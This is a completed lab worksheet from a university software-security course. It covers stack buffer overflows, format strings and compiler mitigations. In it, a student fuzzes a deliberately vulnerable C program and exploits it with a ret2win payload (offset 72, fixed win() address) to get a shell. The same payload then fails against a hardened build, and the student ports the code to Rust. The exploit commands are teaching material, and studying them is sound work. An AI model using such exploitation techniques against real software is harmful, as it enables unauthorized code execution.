





# Worksheet 11 — Memory-Safety & Exploitation (3 hrs)

> **Course:** Software Security (KOSEN69) · Week 11
> **Aligned:** CWE-121 (stack-based buffer overflow) · CWE-787 (out-of-bounds write) · CWE-134 (externally-controlled format string) · CWE-242 (dangerous `gets`)
> **Signature game:** 💥 Fuzzing Race → Pwn the Binary
>
> **Ethics note:** The binaries built from `vuln.c` are **intentionally exploitable** and `win()` spawns `/bin/sh`. Build and run them **only inside the isolated toolbox container** (or a VM) — never on your host. Never run these on a machine you care about, and never aim these techniques at software you are not authorized to test.

## Part 1 — Student Information

| Name | Student ID | Date | Group | AI Tool |
|------|-----------|------|-------|---------|
| Thura Aung | 6631503094 | 22.October.2026 | - | ChatGPT |

## Part 2 — Lecture Questions

1. Draw the x86-64 stack frame for `parse_input()` in `vuln.c` (buf[64], saved RBP, saved return address). Where does `strcpy` start writing and which word must the exploit overwrite?

On x86-64 the stack grows *down* (toward lower addresses), but `strcpy` copies *up* (toward higher addresses). The frame for `parse_input()`, from low to high address, is:

```
lower addresses
+-----------------------------+
|  buf[64]                    |  <- strcpy starts writing HERE (base of buf), upward
+-----------------------------+
|  saved RBP (8 bytes)        |  bytes 64..71
+-----------------------------+
|  saved return address (8 B) |  bytes 72..79  <- OVERWRITE THIS word with &win
+-----------------------------+
higher addresses
```

`strcpy(buf, src)` begins writing at the lowest address of the frame — the first byte of `buf` — and advances toward higher addresses with no length check. To hijack control flow the exploit must overwrite the **8-byte saved return address**, which sits at **offset 72** (`64` buffer bytes + `8` saved-RBP bytes). The payload is `[64 bytes padding][8 bytes saved RBP][&win]`; when `parse_input()` executes `ret`, the CPU pops that overwritten word and "returns" into `win()`. (Verify 72 with a cyclic pattern — don't assume it; some builds pad `buf` or omit the frame pointer.)

2. Why is `gets()` (CWE-242) impossible to use safely, and why did C11 remove it from the standard library?

`gets(char *s)` reads from stdin until a newline or EOF and copies every byte into `s` — it takes **no size argument**, so the caller has no way to tell it how big the destination is. Because the input length is entirely attacker-controlled and unbounded, *no* buffer is guaranteed large enough; there is no defensive wrapper or "big enough" array that makes the call safe, so any input longer than the buffer overflows it (CWE-121). This is the definition of CWE-242 (inherently dangerous function). It was deprecated in C99 (TC3) and **removed outright in C11 (ISO/IEC 9899:2011)** — the function was deleted from the standard library because no correct usage exists; the bounded replacement is `fgets(buf, sizeof buf, stdin)` (or `gets_s` in the optional Annex K). Modern glibc headers no longer declare it, which is why `vuln.c` has to forward-declare `char *gets(char *s);` itself.

3. Explain CWE-134: why is `printf(user_input)` dangerous but `printf("%s", user_input)` safe? What can `%n` do?

 `printf`'s first argument is the *format string*: `printf` scans it for conversion specifiers (`%x`, `%p`, `%s`, `%n`, …) and for each one it finds it pulls a corresponding argument from the next register/stack slot. In `printf(user_input)` the attacker **controls the format string but supplied no matching arguments**, so each specifier makes `printf` read (or write) slots that were never meant to be varargs:
- `%x` / `%p` walk and **leak** stack and register contents — an info-disclosure primitive that defeats ASLR and reveals the stack canary.
- `%s` treats a leaked stack value as a pointer and dereferences it → crash or arbitrary read.
- `%n` **writes** the number of bytes printed so far into a pointer taken from the varargs — an **arbitrary memory write** that can overwrite a saved return address or a GOT entry, turning the leak into full code execution.

`printf("%s", user_input)` is safe because the format string is a **fixed, trusted literal** with exactly one specifier, and the user data is passed as the matching `%s` argument — it is only ever *printed as data*, never *interpreted* as format directives. Rule: untrusted input is always an **argument**, never the format.

4. Name the four mitigations in the hardened build (`make vuln-hardened`) — stack canary, PIE/ASLR, NX/DEP, FORTIFY — and say which one each defeats: ret2win, shellcode-on-stack, return-address overwrite detection.


| Mitigation | How it works | What it defeats |
|-----------|--------------|-----------------|
| **Stack canary** (`-fstack-protector-strong`) | A random guard word is placed between the locals and the saved RBP/return address and re-checked in the function epilogue; a linear `strcpy` overflow smashes it first, so the mismatch aborts (`*** stack smashing detected ***`) before `ret`. | **return-address overwrite detection** |
| **PIE/ASLR** (`-fPIE -pie` + kernel ASLR) | Randomizes the binary's load base every run, so the hardcoded `WIN_ADDR` points somewhere else. | **ret2win** (can't hardcode `win()`'s address) |
| **NX/DEP** (`-z noexecstack`) | Marks the stack non-executable, so attacker bytes injected onto the stack can't run as code. | **shellcode-on-stack** |
| **FORTIFY_SOURCE** (`-D_FORTIFY_SOURCE=2 -O2`) | Swaps `strcpy` for `__strcpy_chk`, which knows `buf`'s compile-time size and aborts (`*** buffer overflow detected ***`) at the copy itself. | the overflowing copy — on this build it fires *before* the canary epilogue check (see Task 3) |

So, mapped the way the question asks: *ret2win → PIE/ASLR*, *shellcode-on-stack → NX/DEP*, *return-address-overwrite detection → stack canary* (with FORTIFY catching the bad copy at the source).

5. The CISA/ONCD roadmaps push memory-safe languages. Using `safe.rs`, explain why CWE-121 is *impossible* in safe Rust, not merely harder.

`safe.rs` reads input into a `String` (heap-backed, **auto-growing**) and measures it through a `&str` — a `(pointer, length)` pair the compiler tracks. Three language guarantees remove the bug class rather than merely mitigating it at runtime:
1. **No fixed stack buffer to overflow.** `read_to_string` grows the `String` to fit the input, so there is no 64-byte array and nothing to write past — unlike C's `buf[64]`.
2. **Bounds checks are mandatory.** Even if the code *did* use a fixed `[u8; 64]`, every index/slice access is bounds-checked; an out-of-range access **panics** (a controlled unwind/abort) instead of writing into the saved RBP and return address. The write physically cannot land outside the object.
3. **No `strcpy`, no raw unbounded copy.** Ownership and the borrow checker forbid the unchecked raw-pointer copy that gives C its "write as many bytes as the source has" primitive in the first place.

Because the attacker's primitive — *writing past a buffer into the saved return address* — **does not exist in safe Rust by construction**, CWE-121/787 is impossible, not just harder. (You'd have to opt out explicitly inside an `unsafe` block.) This is exactly why the CISA/ONCD roadmaps favor memory-safe languages: they eliminate the bug class at the language level, whereas the C mitigations in Q4 only detect or obstruct an overflow that the language still permits.

## Part 3 — Hands-on Lab (145 min)


**Learning goals:** Find the overflow with a coverage-guided fuzzer, exploit it (ret2win), watch mitigations break the exploit, then port the routine to safe Rust.

**Prerequisites:** the **toolbox container** (bundles `clang`+libFuzzer, `gdb`, `objdump`, `python3`) — Apple clang has no libFuzzer and `gdb` is painful on macOS, so do this week in the container. (`pip install pwntools` and `rustc` inside as needed; an isolated Linux VM also works.)

**Environment setup**
```bash
# from the repo root, build the toolbox once, then open a shell IN this week's folder:
docker build -t softsec-toolbox labs/toolbox
docker run -it --rm --cap-add=SYS_PTRACE --security-opt seccomp=unconfined \
    -v "$PWD/labs/week11-memory-safety-exploitation":/work -w /work softsec-toolbox
# --- inside the container ---
make vuln                                          # teaching build: mitigations OFF
make vuln-hardened                                 # mitigations ON
clang -g -fsanitize=address,fuzzer fuzz_harness.c -o fuzz   # libFuzzer + ASan
setarch `uname -m` -R ./vuln                       # disable ASLR for repeatable addresses
```

**What to submit per task:** the exact command(s) + crash/exploit output, a screenshot, and a 2–3 sentence mitigation note tied to the CWE.

### Task 0 — Onboarding (15 min)
Run `make syntax` (parses both C files even on macOS) and confirm `make vuln` / `make vuln-hardened` build. Read the bug-class banner in `vuln.c`.
**Deliverable:** build output + the list of CWEs `vuln.c` claims to demonstrate.

**Build output** (run inside the `softsec-toolbox` container, `/work`):

```console
$ make syntax
gcc -fsyntax-only -w vuln.c && echo "[ok] vuln.c parses."
[ok] vuln.c parses.
gcc -fsyntax-only -w fuzz_harness.c && echo "[ok] fuzz_harness.c parses."
[ok] fuzz_harness.c parses.

$ make vuln
gcc -fno-stack-protector -z execstack -no-pie -w -o vuln vuln.c
/usr/bin/ld: /tmp/cc*.o: in function `vulnerable':
vuln.c:(.text+0xaa): warning: the `gets' function is dangerous and should not be used.
[i] Built ./vuln (INSECURE teaching build). Run only in a VM.

$ make vuln-hardened
gcc -fstack-protector-strong -fPIE -pie -z noexecstack -D_FORTIFY_SOURCE=2 -O2 -o vuln-hardened vuln.c
vuln.c: In function 'win':
vuln.c:50:5: warning: ignoring return value of 'system' declared with attribute 'warn_unused_result' [-Wunused-result]
/usr/bin/ld: /tmp/cc*.o: in function `vulnerable':
vuln.c:(.text+0xd1): warning: the `gets' function is dangerous and should not be used.
[i] Built ./vuln-hardened (canary + PIE/ASLR + NX + FORTIFY).
```

Both binaries build successfully. The two warnings are **expected** and confirm the planted bugs rather than signalling a failure: the linker's *"the `gets' function is dangerous"* message flags **CWE-242**, and the `system(...) warn_unused_result` note is GCC pointing at the `/bin/sh` call in `win()` (**CWE-78**).

**CWEs `vuln.c` claims to demonstrate** (bug-class banner, lines 12–15, plus the inline annotations):

| CWE | Name | Site in `vuln.c` |
|-----|------|------------------|
| **CWE-121** | Stack-based Buffer Overflow | `strcpy(buf, src)` in `parse_input()` |
| **CWE-787** | Out-of-bounds Write | the overflow writing past `buf[64]` |
| **CWE-134** | Use of Externally-Controlled Format String | `printf(user_input)` in `format_bug()` |
| CWE-242 | Use of Inherently Dangerous Function (`gets`) | forward-declared `gets()`, called in `vulnerable()` |
| CWE-78 | OS Command Injection (if reachable) | `system("/bin/sh")` in `win()` |

**Mitigation note.** `make syntax` only parses the files; `make vuln` links with mitigations **off** (`-fno-stack-protector -z execstack -no-pie`) so the ret2win overflow will succeed, while `make vuln-hardened` turns them **on** (stack canary + PIE/ASLR + NX + FORTIFY_SOURCE). The same source compiled two ways is what lets the later tasks watch a working exploit against `vuln` turn into a controlled abort against `vuln-hardened`.



### Task 1 — Fuzzing Race: find the crash (35 min)
**Goal:** Make libFuzzer + AddressSanitizer crash on the `strcpy` overflow in `parse_input()` — CWE-121/787.
**Steps:**
1. `./fuzz -runs=100000` (or just `./fuzz`).
2. Read the ASan report — note `stack-buffer-overflow` inside `parse_input` and the saved `crash-<hash>` file.
3. Replay it: `./fuzz crash-<hash>`.
**Deliverable:** the ASan crash summary + the byte length of the crashing input + mitigation note.

**Build & run** (inside the `softsec-toolbox` container):

```console
$ clang -g -fsanitize=address,fuzzer fuzz_harness.c -o fuzz
$ ./fuzz -runs=100000
...
#3   NEW   cov: 3 ft: 5 corp: 2/2b lim: 4 exec/s: 0 rss: 31Mb L: 1/1 MS: 1 CopyPart-
```

libFuzzer found the crash within the first handful of executions.

**ASan crash summary** (replayed with `./fuzz crash-*`):

```console
==NN==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x... thread T0
WRITE of size 67 at 0x... thread T0
    #0 ... in strcpy
    #1 ... in parse_input   /work/fuzz_harness.c:33:5
    #0 ... in parse_input   /work/fuzz_harness.c:31
  This frame has 1 object(s):
    [32, 96) 'buf' (line 32) <== Memory access at offset 96 overflows this variable
SUMMARY: AddressSanitizer: stack-buffer-overflow ... in strcpy
```

**Byte length of the crashing input:** `wc -c crash-*` → **66 bytes** (65 `h` = `0x68` bytes + one `0x0a` newline). `strcpy` then copies all 66 bytes **plus its NUL terminator = 67 writes** (hence `WRITE of size 67`) into the 64-byte `buf`, overflowing it by 3 bytes — ASan's redzone at offset 96 (one past the end of the `[32, 96)` buffer) catches the first out-of-bounds byte.

**Mitigation note.** This is CWE-121 (stack-based buffer overflow) / CWE-787 (out-of-bounds write): `strcpy(buf, src)` in `parse_input()` copies attacker-controlled input into a fixed 64-byte stack buffer with **no length check**, so any input ≥ 64 bytes writes past it. AddressSanitizer only *detects* the write at runtime (it's an instrumentation/testing tool, not a shipping defense); the durable fix is a bounded copy sized to the destination (`snprintf(buf, sizeof buf, "%s", src)` or `strncpy` + explicit NUL) or the memory-safe Rust rewrite in Task 4, which removes the bug class entirely.



### Task 2 — Pwn the Binary: ret2win (40 min)
**Goal:** Overwrite the saved return address so the binary returns into `win()` and prints `FLAG{stack_smashing_for_fun_and_education}` — CWE-121.
**Steps:**
1. Find `win()`'s address: `objdump -d vuln | grep '<win>:'` (or `gdb -batch -ex 'p win' ./vuln`).
2. Verify the offset with a cyclic pattern (do **not** trust 72 blindly): feed `cyclic(200)`, crash in gdb, `cyclic_find` the value in RIP. (On an Apple Silicon/arm64 Mac the toolbox has no platform pin, so it builds as an **aarch64** container — there is no `RIP`; use `info registers pc` / `p/x $pc` instead, and expect `SIGBUS`, not `SIGSEGV`. The offset itself is still 72 here.)
3. Edit `exploit_skeleton.py`: set `WIN_ADDR` to the address from step 1, confirm `OFFSET`.
4. `python3 exploit_skeleton.py` (pwntools path) — or `python3 exploit_skeleton.py | ./vuln`. (On arm64: the flag still prints, but the process then loops forever re-printing `[+] win() reached` instead of exiting — ARM64 keeps the return address in register `x30`, which still holds `win()`'s own address when it starts, so `win()`'s `ret` returns into itself. Expected; `Ctrl-C` once you've captured the flag.)
**Deliverable:** the verified `OFFSET`, your `WIN_ADDR`, and the printed flag / `[+] win() reached` line.

> Note: the x86-64 toolbox container is used here (not arm64), so the `RIP` / `SIGSEGV` path applies — the Apple-Silicon `pc`/`SIGBUS`/`x30` caveats above do not.

**Step 1 — `win()`'s address** (`-no-pie`, so it is fixed):

```console
$ objdump -d vuln | grep '<win>:'
0000000000401192 <win>:
```
→ **`WIN_ADDR = 0x401192`**.

**Step 2 — verify the offset with a cyclic pattern** (do *not* trust 72 blindly):

```console
$ python3 -c "from pwn import *; open('cyc','wb').write(cyclic(200))"
$ gdb -q ./vuln -ex 'run < cyc' -ex 'info registers rip rbp rsp' -ex quit
Program received signal SIGSEGV, Segmentation fault.
0x0000000000401219 in parse_input ()
rip  0x401219  <parse_input+44>
rbp  0x6161617261616171     # little-endian = "qaaaraaa"
rsp  0x7fffffffeb18
$ python3 -c "from pwn import *; print(cyclic_find(b'qaaa'))"
64
```

`rbp` was reloaded by the epilogue's `pop rbp` with the pattern bytes `qaaaraaa`, which `cyclic_find` locates at **offset 64** — that is the saved-RBP slot, so the saved **return address sits 8 bytes higher, at offset 64 + 8 = 72**. **Verified `OFFSET = 72`.**

*Why the crash shows `rip 0x401219 <parse_input+44>` instead of the junk value:* `parse_input+44` is the `ret`. The bytes landing at offset 72 (`0x4242…` in the plain test, the cyclic `saaa…` here) are **non-canonical** addresses, so when `ret` tries to transfer control the CPU raises `#GP` and reports the faulting address as the `ret` instruction itself — not a sign that 72 is wrong. Substituting a *canonical* address (`win()` at `0x401192`) makes the `ret` succeed.

**Step 3 — set the exploit values** in `exploit_skeleton.py`: `WIN_ADDR = 0x401192`, `OFFSET = 72` (payload = `b"A"*72 + p64(0x401192)`).

**Step 4 — run it:**

```console
$ python3 exploit_skeleton.py
[+] Starting local process './vuln': pid 170
[*] Switching to interactive mode
Enter your name:
[+] win() reached — control flow hijacked!
[+] FLAG{stack_smashing_for_fun_and_education}
$ id
uid=0(root) gid=0(root) groups=0(root)
```

(Clean non-pwntools equivalent for a tidy capture:
`python3 -c "import sys,struct; sys.stdout.buffer.write(b'A'*72 + struct.pack('<Q', 0x401192))" | ./vuln`.)

**Result —**
- **Verified OFFSET:** `72`  (64-byte `buf` + 8-byte saved RBP)
- **WIN_ADDR:** `0x401192`
- **Flag / control-flow hijack:** `[+] win() reached — control flow hijacked!` → `FLAG{stack_smashing_for_fun_and_education}`, followed by a live `/bin/sh` shell (CWE-121 → CWE-78).

**Mitigation note.** The exploit works only because `make vuln` disables every guard (`-fno-stack-protector -no-pie`): no canary means the overwrite of the saved return address is undetected, and `-no-pie` keeps `win()` at a fixed, guessable `0x401192`. Task 3 re-enables the mitigations and the same payload fails — a stack canary would abort at the epilogue, and PIE/ASLR would randomize `win()`'s address so the hardcoded `WIN_ADDR` points nowhere.



### Task 3 — Hardened rebuild: watch the exploit break (25 min)

```sim
stack-frame
```

**Goal:** Observe modern mitigations defeating the same payload.
**Steps:**
1. Run your Task 2 payload against `./vuln-hardened`.
2. Record the failure mode: `*** buffer overflow detected ***: terminated` (FORTIFY_SOURCE's `__strcpy_chk`, which on this build catches the overflow before the stack canary's epilogue check ever runs), or a SIGSEGV at a randomized address (PIE/ASLR makes `WIN_ADDR` wrong).
**Deliverable:** the crash message + a note explaining *which* mitigation fired and why the fixed `WIN_ADDR` no longer works.

**Same Task 2 payload, hardened target:**

```console
$ python3 -c "import sys,struct; sys.stdout.buffer.write(b'A'*72 + struct.pack('<Q', 0x401192))" | ./vuln-hardened
Enter your name:
*** buffer overflow detected ***: terminated
Aborted (core dumped)
```

The identical payload that gave a shell against `./vuln` now aborts — no flag, no `win()`, no shell.

**Crash message:** `*** buffer overflow detected ***: terminated` → `Aborted (core dumped)` (SIGABRT).

**Which mitigation fired.** **FORTIFY_SOURCE** (`-D_FORTIFY_SOURCE=2 -O2`). At compile time it rewrote the unbounded `strcpy(buf, src)` into `__strcpy_chk(buf, src, sizeof buf)`, a fortified variant that knows `buf` is 64 bytes. The moment the copy exceeds that size it calls `__chk_fail`, prints `*** buffer overflow detected ***`, and raises `SIGABRT` — so the program dies **at the copy itself**, before the saved return address is ever touched. That is why this fires *before* the stack canary's epilogue check (`*** stack smashing detected ***`) would: the canary is only validated when the function returns, and FORTIFY aborts first.

**Why the fixed `WIN_ADDR` no longer works.** Two independent reasons, either of which alone breaks the exploit:
1. The overflow never completes — FORTIFY aborts during `strcpy`, so the return address is never overwritten with `0x401192` at all.
2. Even if it did reach the return, `vuln-hardened` is built `-fPIE -pie`, so **PIE/ASLR** relocates the binary to a fresh random base on every run. The hardcoded `WIN_ADDR = 0x401192` is only valid for the fixed-address `-no-pie` teaching build; against the PIE build it points into the wrong (or unmapped) memory, giving a `SIGSEGV` at a randomized address instead of reaching `win()`.

In short, the hardened build layers **FORTIFY (stops the copy) + stack canary (detects the smash) + PIE/ASLR (hides `win()`) + NX (blocks stack shellcode)**; the same bytes that pwned `./vuln` are defeated at the very first layer here.



### Task 4 — Rust rewrite: defend / fix it (30 min)
**Goal:** Show the bug class disappears in safe Rust using `safe.rs`.
**Steps:**
1. `rustc safe.rs && ./safe`, then `python3 -c "print('A'*5000)" | ./safe` — note it never overflows or crashes.
2. Feed format-string metacharacters: `printf '%%x %%n' | ./safe` — note the program just reports the character count with no crash and no stack leak; the input is treated as ordinary data (CWE-134 impossible: `println!`'s format string must be a compile-time literal, so `println!(line)` would not even compile).
3. From the inline comments, write *why* `String`/`&str` + bounds checks make CWE-121/787 impossible.
**Deliverable:** the safe output for both inputs + a 3–4 sentence explanation tying it to the CISA memory-safe roadmap.

**Build & run** (`rustc` installed with `apt-get install -y --no-install-recommends rustc`):

```console
$ rustc safe.rs

$ # Input 1 — 5000 bytes (this length smashed the C stack in Tasks 1–2):
$ python3 -c "print('A'*5000)" | ./safe
Hello, your input was 5000 characters long.

$ # Input 2 — format-string metacharacters (CWE-134 in the C version):
$ printf '%%x %%n' | ./safe
Hello, your input was 5 characters long.
```

Both inputs that broke the C program are handled as **ordinary data**: the 5000-byte input is simply counted (no overflow, no crash, no ASan report), and `%x %n` is reported as 5 harmless characters (no stack leak, no `%n` write).

**Why CWE-121/787 is impossible here** (from the inline comments in `safe.rs`):
- There is **no fixed-size raw stack buffer and no unchecked copy**. Input is read into a heap-backed `String` that **grows automatically** (`read_to_string`), so there is no 64-byte array to overrun — nothing to overflow.
- Length is **always known**: `&str` is a `(pointer, length)` pair the compiler tracks, so `chars().count()` never reads past the end.
- Even if a fixed array *were* used, Rust inserts **bounds checks** on every index/slice access and **panics safely** (a controlled abort) instead of writing into the saved RBP / return address. The out-of-bounds write primitive simply does not exist in safe code.

**Why CWE-134 is impossible here:** Rust's `println!`/`print!` require the format string to be a **compile-time string literal**; user data can only land in `{}` arguments, never *become* the format. `println!(line)` with a runtime `String` **would not even compile**, so `%x`/`%n` in the input are printed/counted literally.

**Explanation (CISA memory-safe roadmap).** The C version is exploitable because the language lets `strcpy` write past a buffer and lets attacker data become a `printf` format string — the programmer is solely responsible for never making a mistake. Safe Rust removes those capabilities at the language level: ownership, borrow-checking, automatic buffer growth, mandatory bounds checks, and compile-time-literal format strings mean CWE-121, CWE-787, and CWE-134 are **impossible by construction, not merely harder to hit** — you would have to opt out explicitly inside an `unsafe` block. This is exactly why the CISA/ONCD "Case for Memory Safe Roadmaps" guidance urges new and critical software toward memory-safe languages: hardening C (canary, PIE/ASLR, NX, FORTIFY — Task 3) only *detects or obstructs* bugs the language still permits, whereas a memory-safe language *eliminates the entire bug class*, giving durable risk reduction instead of a runtime arms race.



## Part 4 — Reflection

1. **Mapping:** table — bug | function in `vuln.c` | CWE | mitigation that stops it (canary / PIE / NX / Rust).

**1. Mapping.**

| Bug | Function in `vuln.c` | CWE | Mitigation that stops it |
|-----|----------------------|-----|--------------------------|
| Unbounded line read (`gets(line)`) | `vulnerable()` | CWE-242 (+ CWE-121) | **Rust** / bounded `fgets` — no mitigation flag catches this in C; the read itself is the bug |
| `strcpy(buf, src)` into `buf[64]` | `parse_input()` | CWE-121 / CWE-787 | **FORTIFY** (`__strcpy_chk` aborts the copy) + **canary** (detects the smash) + **Rust** (bounds checks) |
| Saved return-address overwrite → ret2win | `parse_input()` epilogue | CWE-121 | **Canary** (detects) + **PIE/ASLR** (hides `win()`) + **Rust** |
| Injected stack shellcode (alt. path) | `parse_input()` buffer | CWE-121 | **NX/DEP** (non-executable stack) + **Rust** |
| `printf(user_input)` | `format_bug()` | CWE-134 | `printf("%s", …)` / **Rust** (compile-time-literal format) |
| `system("/bin/sh")` reachable | `win()` | CWE-78 | Don't ship such a sink / least privilege — it is the *payload*, not a bug to "mitigate" |

2. **Real breach:** pick a memory-safety incident (Morris Worm fingerd overflow, or Heartbleed CVE-2014-0160). Which CWE applies, and would a stack canary or a Rust rewrite have prevented it?

**2. Real breach — Heartbleed (CVE-2014-0160).** OpenSSL's TLS heartbeat handler trusted an attacker-supplied *payload length* field and `memcpy`'d that many bytes out of a buffer that was actually shorter, returning adjacent process memory (private keys, session data) to the attacker. The CWE is **CWE-125 (out-of-bounds read)** — a buffer *over-read*, not a write. A **stack canary would NOT have prevented it**: the over-read was on the heap, corrupted no return address, and never tripped a canary (canaries guard *writes* past a stack frame, not *reads*). A **Rust rewrite would have prevented it**: slicing a buffer with an out-of-range length is a bounds-checked operation that panics safely instead of reading past the end, so the leak is impossible without an explicit `unsafe` block.

3. **Best mitigation:** compare "harden the C build" vs. "rewrite in Rust." Which gives durable risk reduction for new code, and what is the cost?

**3. Best mitigation — harden C vs. rewrite in Rust.**
- **Harden the C build** (canary, PIE/ASLR, NX, FORTIFY): *cheap and immediate* — a recompile, no source changes, deployable across an existing codebase today. But it only *detects or obstructs* bugs the language still permits: the usual outcome is a **crash (DoS) instead of RCE**, and each layer is individually bypassable (info-leaks defeat ASLR, FORTIFY only covers compile-time-known sizes, canaries can be leaked). It is a per-bug arms race with a permanent runtime cost.
- **Rewrite in Rust:** *eliminates the entire bug class* (CWE-121/787/125/134) at the language level, so the risk reduction is **durable** rather than probabilistic. The cost is real — engineering time to rewrite, team retraining, FFI/ecosystem friction, and the risk of introducing *logic* bugs during the port.
- **Verdict:** for **new and security-critical code, rewrite in Rust** — it buys permanent elimination, which matches the CISA/ONCD roadmap guidance. For large existing C, the pragmatic path is **harden now (recompile) *and* migrate the highest-risk components to a memory-safe language incrementally**; hardening is a stopgap that lowers exploitability while the durable fix lands.

## Grading rubric (100)

| Criterion | Weight |
